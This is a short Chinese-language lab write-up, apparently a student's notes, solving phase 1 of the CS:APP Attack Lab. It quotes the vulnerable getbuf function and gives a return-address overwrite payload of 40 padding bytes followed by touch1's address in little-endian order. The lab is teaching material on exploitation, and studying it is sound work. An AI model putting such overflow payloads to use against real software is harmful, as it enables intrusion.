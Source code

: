 lab之前先阅读了该lab的文档 非常关键
http://csapp.cs.cmu.edu/3e/attacklab.pdf
Both CTARGET and RTARGET read strings from standard input. They do so with the function getbuf
defined below:
```c
unsigned getbuf()
{
char buf[BUFFER_SIZE];
Gets(buf);
return 1;
}
```

正式开始之前先用命令 lscpu | grep -i byte 查看机器是大端还是小端 这会影响输入的顺序  
Byte Order:            Little Endian  
显示为小端机器 则地址顺序相比正常写法需要改变   
如地址0x123456 需要写为 56 34 12  
再将ctarget gtarget用objdump转换成汇编代码以便了解函数地址

### ***1***
汇编代码中 函数touch1 在地址0x4017c0
且getbuf有 rsp-0x28 即40bytes
于是在输入的第40字节后添加地址 4017c0 以替换栈中的ret值
答案如下
输入:  00 00 ... 00 c0 17 40
位数:   0  1 ... 40 41 42 43
